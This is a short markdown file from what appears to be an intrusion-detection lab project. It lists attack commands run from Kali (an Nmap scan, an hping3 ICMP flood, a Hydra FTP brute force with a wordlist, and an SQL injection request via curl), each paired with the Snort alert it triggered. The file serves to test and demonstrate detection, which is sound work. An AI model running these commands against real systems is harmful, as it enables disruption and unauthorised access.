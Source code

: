 
---

## 🧪 `docs/attack_simulations.md`

```markdown
# ⚔️ Attack Simulations

This file documents how each attack was simulated from Kali and how Snort detected it on Ubuntu.

---

### 🔍 Port Scan (Nmap)

**Tool:** Nmap  
**Command:**
```bash
nmap -sS 192.168.x.x

[**] [1000001] [ALERT] Port scan detected [**]

hping3 -1 --flood 192.168.x.x

[**] [1000002] [ALERT] ICMP Flood [**]


hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ftp://192.168.x.x -t 4

[**] [1000005] [ALERT] FTP brute force detected [**]


curl "http://192.168.x.x/mutillidae/index.php?page=dns-lookup.php&id='%20or%201=1--"

[**] [1000004] [ALERT] SQL Injection attempt [**]

